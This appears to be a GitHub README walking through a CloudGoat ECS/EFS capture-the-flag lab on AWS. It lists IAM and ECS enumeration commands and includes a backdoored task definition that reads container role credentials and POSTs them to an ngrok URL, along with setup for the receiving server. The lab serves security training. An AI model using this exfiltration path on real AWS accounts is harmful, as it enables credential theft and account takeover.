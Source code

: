 # Rhino-Security-Labs
Practicing the Rhino Security Labs

# Installation
1. Install Terraform https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
2. Install Cloudgoat - a sandbox environment to perform cloud based vulnerbility testing https://github.com/RhinoSecurityLabs/cloudgoat#quick-start

# Scenarios
## EFS ECS attack
The goal of this mission is to mount a file system on EFS and retrieve the flag. To build the resources for the scenario:
```
./cloudgoat.py create ecs_efs_attack
cd ecs_efs_attack<random generated strings>
```
### Privilege Enumeration
1. SSH into the instance ```ssh -i cloudgoat ubuntu@<IP address of ruse>```
2. Create a new profile (inherits the permissions from the EC2) ```aws configure --profile ruse```
3. Get the instance profile for the EC2 instance ```aws sts get-caller-identity```. The role name is found like so: arn:aws:sts::<account id>:assumed-role/<role name>/<instance id>
4. List the attached policies - 
  ```
  aws iam list-attached-role-policies --role-name <Role name>
   {
    "AttachedPolicies": [
        {
            "PolicyName": "cg-ec2-ruse-role-policy-ecs_efs_attack_cgid6sec93nj4n",
            "PolicyArn": "arn:aws:iam::<account id>:policy/<policy arn>"
        },
        {
            "PolicyName": "AmazonSSMManagedInstanceCore",
            "PolicyArn": "arn:aws:iam::aws:policy/AmazonSSMManagedInstanceCore"
        }
    ]
  }
  ```
5. Get the actual policy document - 
  ```
  aws iam get-policy-version --policy-arn arn:aws:iam::<account id>:policy/cg-ec2-ruse-role-policy-ecs_efs_attack_cgid6sec93nj4n --version-id v1
  {
      "PolicyVersion": {
          "Document": {
              "Statement": [
                  {
                      "Action": [
                          "ecs:Describe*",
                          "ecs:List*",
                          "ecs:RegisterTaskDefinition",
                          "ecs:UpdateService",
                          "iam:PassRole",
                          "iam:List*",
                          "iam:Get*",
                          "ec2:CreateTags",
                          "ec2:DescribeInstances",
                          "ec2:DescribeImages",
                          "ec2:DescribeTags",
                          "ec2:DescribeSnapshots"
                      ],
                      "Effect": "Allow",
                      "Resource": "*",
                      "Sid": "VisualEditor0"
                  }
              ],
              "Version": "2012-10-17"
          },
          "VersionId": "v1",
          "IsDefaultVersion": true,
          "CreateDate": "2023-04-13T04:01:32+00:00"
      }
  }
  ```
  We can see that the actions that are allowed e.g. EC2 (read), ECS (read and write) and iam (read)

### EC2 Enumeration
1. List all ec2 instances - ```aws ec2 describe-instances```. If you have lots of instances, filter by region and running state: ``` aws ec2 describe-instances --region us-east-1 --filters "Name=instance-state-name, Values=running"```
  Found 2 instances. With StartSession SSM tagged with both:
    * cg-ruse-ec2-ecs_efs_attack_cgid6sec93nj4n (StartSesion true)
    * cg-admin-ec2-ecs_efs_attack_cgid6sec93nj4n (StartSesion false)

### ECS Enumeration
1. List clusters - 
  ```
  aws ecs list-clusters
  {
      "clusterArns": [
          "arn:aws:ecs:us-east-1:<account id>:cluster/<cluster id>"
      ]
  }
  ```
2. List the services with the cluster to know which task we can update in order to go into the admin EC2. ECS highest level is a cluster-> service->task.
 ```
  aws ecs list-services --cluster <cluster arn>
  
  ```
  {
    "serviceArns": [
        "arn:aws:ecs:us-east-1:<account id>:service/<cluster name>/<service name>"
    ]
}
3. Describe the services to find task definition name
  ```
  aws ecs describe-services --cluster <cluster name> --services <service name>
  ...
  "taskDefinition": "<task definition arn>",
  ...
  ```
4. Describe the task definition and output to a file so we are able to change the behaviour
  ```
  aws ecs describe-task-definition --task-definition webapp:1 > backdoor.json
  ```
5. Change backdoor.json to the following:
```
{
	"containerDefinitions": [{
		"name": "webapp",
		"image": "python:latest",
		"cpu": 128,
		"memory": 128,
		"memoryReservation": 64,
		"portMappings": [{
			"containerPort": 80,
			"hostPort": 80,
			"protocol": "tcp"
		}],
		"essential": true,
		"entryPoint": ["sh", "-c"],
		"command": [
			"/bin/sh -c \"curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI > data.json && curl -X POST -d @data.json <NGROK URL>/data \" "
		],
		"environment": [],
		"mountPoints": [],
		"volumesFrom": []
	}],
	"family": "webapp",
	"taskRoleArn": "<task role arn>",
	"executionRoleArn": "<task role arn>",
	"networkMode": "awsvpc",
	"volumes": [],
	"placementConstraints": [],
	"requiresCompatibilities": ["FARGATE"],
	"cpu": "256",
	"memory": "512"
}
```
6. In order to create a ngrok url, we can firstly create a http server using node.js and then use ngrok to host the service.
    1. To create an http server, install node on your machine: https://nodejs.org/en/download
        1. Create a index.js file with the contents of index.js in this repository
        2. Run the http server: ```node index.js```
        3. Validate that is working by going to ```http://localhost:8080
    2. To host your http server, follow the steps to install ngrok: https://ngrok.com/download
      1. Once you have successfully ran the installations, start a tunnel by typing: ```ngrok http 8080```
      2. There should be a Forwarding url that will be displayed in which your website will be hosted, use that url as the NGROK URL above.
      ![image](https://user-images.githubusercontent.com/39514108/232182632-27d9dd76-7cf7-42e5-8858-6ff701f980e9.png)
      3. Validate that you are able to post data to the NGROK url by using ```curl -X POST -d "random string" <NGROK URL>/data```
7. Register the task
```
aws ecs register-task-definition --cli-input-json file://backdoor.json
aws ecs update-service --serivce <service ARN> --cluster <cluster ARN> --task-definition <task ARN>
```
8. After a few minutes, you should see that the credentials are sent through in the Node terminal or in the ngrok web interface in the following format
```
{"RoleArn":<ROLEARN>, "AccessKeyId": <AccessKeyId> "SecretAccessKey":<SecretAccessKey">}
```
  
# Trouble Shooting
## Installation

#### Cloudgoat - ```No whitelist.txt file was found at /Users/huajanel/cloudgoat/whitelist.txt ... Unknown error: Unable to retrieve IP address.```
With the --auto feature, the whitelist is created automatically. However, if it is not able to find the IP address due to VPN, etc., restrictions, then perform the following commands
```
ifconfig <- For MAC, retrieve IP Address
cd cloudgoat
nano whitelist.txt <- Ensure that the IP address has a CIDR of /32 at the end
python3 cloudgoat.py config whitelist
```

## Scenarios
#### ```The create command requires the use of the --profile flag, or a default profile defined in the config.yml file (try "config profile")```
Update the config file for cloudgoat to add your aws profile. An access key and secret access key must be created first.
```
cd cloudgoat
nano ./config.yml
<Edit cloudgoat_aws_access_key with the appropriate access key. Same with secret access key.>
```
#### ```ssh: connect to host <IP address> port 22: Operation timed out```
This error could be caused if your whitelist IP address was not correct. To find the correct IP address, in the ec2 console of the account, change the targeted instance, SSH rule to allow 0.0.0.0/0.
Then in the terminal SSH as normal e.g. ```ssh -i <key pair> ubuntu@<IP address>```
Find your ip address by: ```who am i```
Copy the IP address to the EC2 console SSH rule to change. 

